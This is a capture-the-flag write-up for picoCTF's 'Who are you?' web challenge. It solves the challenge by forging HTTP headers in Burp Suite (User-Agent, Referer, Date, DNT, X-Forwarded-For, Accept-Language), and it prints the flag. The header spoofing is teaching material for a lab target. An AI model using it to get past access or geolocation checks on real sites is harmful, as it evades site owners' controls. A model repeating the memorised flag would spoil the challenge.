

# Who are you?

Author: madStacks

Category: Web Exploitation

Flag: `picoCTF{http_h34d3rs_v3ry_c0Ol_much_w0w_0da16bb2}`

## Description

Let me in. Let me iiiiiiinnnnnnnnnnnnnnnnnnnn http://mercury.picoctf.net:36622/

## Difficulty

Medium

## Solution

1. Visit the website

2. There is a statement `Only people who use the official PicoBrowser are allowed on this site!`

3. Open your burpsuite and intercept the request

```
GET / HTTP/1.1
Host: mercury.picoctf.net:36622
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

4. Just add PicoBrowser to User-Agent

```
GET / HTTP/1.1
Host: mercury.picoctf.net:36622
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: PicoBrowser Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

5. There is another statement `I don't trust users visiting from another site.` The answer is add referer to request

6. The Referer HTTP request header contains the absolute or partial address from which a resource has been requested. The Referer header allows a server to identify referring pages that people are visiting from or where requested resources are being used. This data can be used for analytics, logging, optimized caching, and more.

   When you click a link, the Referer contains the address of the page that includes the link. When you make resource requests to another domain, the Referer contains the address of the page that uses the requested resource.

```
GET / HTTP/1.1
Host: mercury.picoctf.net:36622
Referer: mercury.picoctf.net:36622
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: PicoBrowser Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

7. There's a statement `Sorry, this site only worked in 2018`

8. Just add `Date: 2018` to request

9. There's a statement `I don't trust users who can be tracked`

10. Add `DNT: 1`. DNT is Do Not Track and 1 is the value of DNT (it means true)

11. There's a statement `This website is only for people from Sweden`

12. Add `X-Forwarded-For: <IP Address>` to request

13. To get the ip address is simple.

14. Open your browser and then type `sweden website`, the first website should be from Sweden. Just copy the link address

15. Go to `https://www.iplocation.net/ip-lookup` and paste the link address

16. There's a statement `You're in Sweden but you don't speak Swedish`

17. Change the `Accept-Language: <Language>` to `sv-SE`


